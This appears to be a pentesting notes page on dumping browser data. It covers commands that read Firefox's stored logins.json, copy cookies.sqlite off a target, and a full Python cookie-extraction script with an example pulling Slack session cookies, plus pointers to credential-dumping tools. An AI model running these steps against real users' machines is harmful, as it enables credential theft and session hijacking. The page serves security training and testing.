

repository: amandaguglieri/hackinglife · page: browsers-pentesting/index.html · generator: mkdocs

---
title: Pentesting browsers
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - browsers
  - chrome
  - firefox
  - tools
---
# Pentesting Browsers


## Dumping memory and cache: focus on credentials

[mimipenguin](https://github.com/huntergregal/mimipenguin)
[lazagne](lazagne.md)

Firefox stored credentials:

```bash
ls -l .mozilla/firefox/ | grep default 

cat .mozilla/firefox/xxxxxxxxx-xxxxxxxxxx/logins.json | jq .
```

The tool [Firefox Decrypt](https://github.com/unode/firefox_decrypt) is excellent for decrypting these credentials, and is updated regularly. It requires Python 3.9 to run the latest version. Otherwise, `Firefox Decrypt 0.7.0` with Python 2 must be used.


## Dumping data from session, local data and others

### HackBrowserData
[HackBrowserData](https://github.com/moonD4rk/HackBrowserData):  HackBrowserData is a command-line tool for decrypting and exporting browser data (passwords, history, cookies, bookmarks, credit cards, download history, localStorage and extensions) from the browser. It supports the most popular browsers on the market and runs on Windows, macOS and Linux.


### Cookie extraction with [cookieextractor.py](https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/cookieextractor.py)

```powershell
copy $env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\cookies.sqlite .
```

We can copy the file to our machine and use the Python script [cookieextractor.py](https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/cookieextractor.py) to extract cookies from the Firefox cookies.SQLite database.

This is the script:

```python
#!/usr/bin/env python3
# Sample Script to extract cookies offile from FireFox sqlite database 
# Created by PlainText 

import argparse
import sqlite3

def main(dbpath, host, cookie):
	conn = sqlite3.connect(dbpath)
	cursor = conn.cursor()

	if (host == "" and cookie == ""):
		query = "SELECT * FROM moz_cookies"
	elif (host != "" and cookie == ""):
		query = "SELECT * FROM moz_cookies WHERE host LIKE '%{}%'".format(host)
	elif (host == "" and cookie != ""):
		query = "SELECT * FROM moz_cookies WHERE name LIKE '%{}%'".format(cookie)
	elif (host != "" and cookie != ""):
		query = "SELECT * FROM moz_cookies WHERE name LIKE '%{}%' AND host LIKE '%{}%'".format(cookie, host)

	cursor.execute(query)
	records = cursor.fetchall()
	rowCount = len(records) 

	if (rowCount > 0):
		for row in records:
			print(row)
	else:
		print("[-] No cookie found with the selected options.")

	conn.close()

if __name__ == "__main__":
	parser = argparse.ArgumentParser()
	parser.add_argument("--dbpath", "-d", required=True, help="The path to the sqlite cookies database")
	parser.add_argument("--host", "-o", required=False, help="The host for the cookie", default="")
	parser.add_argument("--cookie", "-c", required=False, help="The name of the cookie", default="")
	args = parser.parse_args()
	main(args.dbpath, args.host, args.cookie)
```

```shell-session
python3 cookieextractor.py --dbpath "/home/plaintext/cookies.sqlite" --host slack --cookie d
```
